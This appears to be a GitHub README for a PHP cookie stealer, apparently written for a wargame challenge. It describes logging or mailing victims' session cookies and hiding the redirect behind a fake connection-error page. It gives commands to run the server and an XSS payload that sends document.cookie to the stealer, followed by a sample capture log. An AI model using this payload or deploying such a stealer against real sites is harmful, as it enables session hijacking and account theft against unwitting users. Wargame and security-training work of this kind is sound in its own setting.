 # CookieStealer
## Information
A simple Cookie Stealer written in PHP created to solve a wargame-challenge. When a user is redirected to the server running the cookie stealer its current session cookie is saved to a logfile or mailed together with basic information about the redirected user. The PHP-program also contains an example of how detection of the website redirection can be avoided by using a simple bogus webpage suing the iamge "connectionError.png". Further explanation of how the php-program works can be seen as comments in "index.php".

## Requirements
The only requirement of this program is PHP. Can be installed using:
```bash
sudo apt-get install php
```

## Run
The simplest way to run a server containing the Cookie Grabber is by running:
```bash
php -s <IP><Port> -t <Path>
```
Where <Path> is the path of the "CookieStealer" directory.
  
## Example
A server is started using the command:
```bash
php -s 127.0.0.1:1337 -t .
```
A user visits a webpage with XSS vulnerabilites. A user is redirected to the server running the Cookie Stealer using the injected javascript:
```bash
<script>document.location="http://127.0.0.1:1337/?cookie=" + document.cookie;</script>
```
The resulting log of the redirection is seen below.
```bash
IP: 
Port: 39024
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Method: 
Referer: 
Date: 2018-11-23 07:27:38
Cookie: <Omitted Output>
```


